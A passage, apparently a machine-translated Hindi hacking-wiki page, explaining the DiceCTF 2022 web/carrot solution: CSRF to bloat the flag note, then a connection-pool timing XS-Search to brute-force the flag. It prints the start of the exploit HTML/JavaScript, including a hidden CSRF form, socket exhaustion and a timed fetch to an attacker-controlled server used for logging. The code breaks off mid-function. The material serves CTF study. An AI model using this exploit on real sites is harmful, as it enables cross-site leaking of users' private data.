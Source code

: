 इस मामले में धोखाधड़ी का पहला कदम यह था कि CSRF का दुरुपयोग करके फ़्लैग को संग्रहित करने वाले पेज को संशोधित किया गया ताकि इसमें **बहुत अधिक सामग्री हो** (और इसलिए इसे लोड करने में अधिक समय लगे), और फिर **कनेक्शन पूल का दुरुपयोग करके पेज तक पहुंच करने में लगने वाला समय मापें** जो कि संभावित रूप से फ़्लैग को हो सकता है।

धोखाधड़ी में आप देख सकते हैं:

* CSRF का दुरुपयोग
* सभी सॉकेट्स को एक के अलावा ओकुपाई करें
* प्रतिक्रिया को कैलिब्रेट करें
* पोटेंशियल पेज के साथ फ़्लैग के लिए ब्रूटफ़ोर्सिंग शुरू करें
* पोटेंशियल पेज तक पहुंचा जाएगा और तुरंत ही हमलावर के नियंत्रित URL तक पहुंचा जाएगा ताकि दोनों अनुरोधों को कितना समय लगता है, यह जांचा जा सके।
```html
<h1>DiceCTF 2022 web/carrot</h1>

<p>Step 1: CSRF the admin user, to set a super long title for the flag note (LAX + POST form only possible for 2 minutes after cookies is created)</p>
<button onclick="csrf()">do csrf</button>
<p>Step 2: XS-Search with <a href="https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/">connection-pool timing leak</a>, we have to use window.open (LAX cookie)</p>

<button onclick="popunder()">open popup</button>
<button onclick="exhaust_sockets()">open 255 connections</button>
<button onclick="oracle('dice{abc')">test search "abc" (slow)</button>
<button onclick="oracle('dice{xxx')">test search "xxx" (fast)</button>
<br>
<br>
<h2 id=output></h2>
<br>
<form id=x action="" method="POST" style="display:none;">
<input type="text" name="title" placeholder="title">
<br><br>
<input type="number" name="priority" placeholder="priority" value=9999>
<br><br>
<textarea name="content" placeholder="content" rows="5" cols="20"></textarea>
<br><br>
<input type="submit" value="submit">
</form>

<script>

// this is send is used as logging
LOG = 'Starting'
// 255 in normal chrome, 99 in headless
SOCKETLIMIT = 255;
// default
TIMELIMIT = 800;
INSTANCE = ''
MYSERVER = `example.com`

const sleep = (ms) => {
return new Promise(resolve => {
setTimeout(resolve, ms);
});
}

const time_fetch = async() => {
let test_server_url = `https://${MYSERVER}/?${LOG}`;
let start = window.performance.now();
try {
await fetch(test_server_url, {
mode: 'no-cors'
});
} catch (e) {
```